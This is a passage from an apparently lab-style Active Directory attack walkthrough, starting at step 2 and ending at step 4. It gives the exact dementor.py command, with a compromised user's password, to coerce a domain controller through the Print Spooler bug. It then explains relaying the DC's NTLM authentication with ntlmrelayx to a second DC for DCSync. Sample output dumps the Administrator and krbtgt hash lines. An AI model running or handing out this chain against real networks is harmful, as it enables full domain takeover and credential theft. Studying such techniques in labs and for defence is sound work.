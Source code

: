 * * *

## **Step 2: Trigger the Print Spooler (PrinterBug)**

We need to force a Domain Controller (`172.16.20.3`) to authenticate to us (attacker box).

We’ll use **Dementor.py** for this.

### Command:

`python3 dementor.py 172.16.20.20 172.16.20.3 -u John -d eagle.local -p Salas123`

### Explanation:

- `172.16.20.20` → Your attacker/Kali box (running ntlmrelayx).
    
- `172.16.20.3` → The **victim DC** that has Print Spooler enabled.
    
- `-u John -d eagle.local -p Salas123` → Domain credentials (any domain user) to authenticate against spooler RPC.
    
    - Here, we already compromised John’s account earlier.

What happens here:

- Dementor asks `DC01 (172.16.20.3)` to monitor a fake printer notification.
    
- DC01 then tries to “call back” to the attacker’s box (`172.16.20.20`).
    
- That call carries **DC01’s machine account credentials (NTLM)**.
    

If successful, `ntlmrelayx` will catch this connection.

* * *

## **Step 3: Relay the Credentials**

Once DC01 connects back to us:

- `ntlmrelayx` intercepts the NTLM authentication blob.
    
- Instead of cracking it, `ntlmrelayx` **immediately relays** it to DC2 (`172.16.20.4`).
    
- DC2 thinks “Oh, this is DC01 talking to me” and accepts the authentication.
    

Since we told ntlmrelayx to run `dcsync://...`, it uses that relayed identity to request **replication privileges** from DC2.

* * *

## **Step 4: Steal the Domain Hashes (DCSync)**

If SMB signing is disabled on DC2, the DCSync will succeed.

On the ntlmrelayx terminal, you’ll see output like:

`[*] Authenticating against dcsync://172.16.20.4 as EAGLE\DC01$[*] Dumping domain secrets...Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::krbtgt:502:......`
